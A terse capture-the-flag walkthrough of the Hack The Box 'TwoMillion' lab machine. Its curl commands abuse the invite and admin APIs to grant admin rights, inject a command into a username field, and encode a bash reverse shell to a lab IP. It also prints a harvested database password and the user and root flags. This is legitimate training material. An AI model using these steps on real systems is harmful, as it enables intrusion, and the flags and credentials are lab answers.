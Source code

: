 # TwoMillion

After mapping the website 
on page of login :-
simple login form with error in "User not found" ==> you can bruteforce username
by dirb search 
you will find : http://2million.htb/register
also found js function in invite page
after deobfuscate it 
```
function verifyInviteCode(code) {
    var formData = { "code": code };

    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            if (response.status === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                localStorage.setItem('inviteCode', code);
                window.location.href = '/register';
            } else {
                alert("Invalid invite code. Please try again.");
            }
        },
        error: function(response) {
            alert("An error occurred. Please try again.");
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

```
then go to register page 
http://2million.htb/register

with burpe you will git this reqest 
```
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://2million.htb
Connection: close
Referer: http://2million.htb/register
Cookie: PHPSESSID=dro49cpjchla0hbraffbmhqv4v
Upgrade-Insecure-Requests: 1

code=&username=user&email=user%40htb.com&password=user&password_confirmation=user
```

curl -sX POST http://2million.htb/api/v1/invite/how/to/generate 
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}

you got a ROT13-decoded message says : In order to generate the invite code, make a POST request to /api/v1/invite/generate

curl -sX POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc=","format":"encoded"}}  

it is base64 decoded invitation code  => echo N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc= | base64 -d => 7VPT4-I4FM4-N3Q3K-2KI9G 

Use the invitation code to register an account

code=7VPT4-I4FM4-N3Q3K-2KI9G&username=user&email=user%40htb.com&password=user&password_confirmation=user

GET the PHPSESSID from your browser => 0u8rjqr7pid9s7m2eaoavcjecu

curl -sv 2million.htb/api --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq

curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq

* Connection #0 to host 2million.htb left intact
{
  "/api/v1": "Version 1 of the API"
}

curl http://2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq 

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

You find all V1 data

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com", "is_admin": '1'}' | jq 

{
  "id": 13,
  "username": "user",
  "is_admin": 1
}

if you now try curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq

curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user"}'  

curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user;id;"}'  

echo -n "bash -i >& /dev/tcp/10.10.14.48/1234 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC8xMjM0IDA+JjE=

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

We find admin password 
ssh to admin with the password

user flag => a2624f25c7983f33de70b88f7b290710

in /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

root.txt => f3f590b486fa536eb258bc4abf59e107
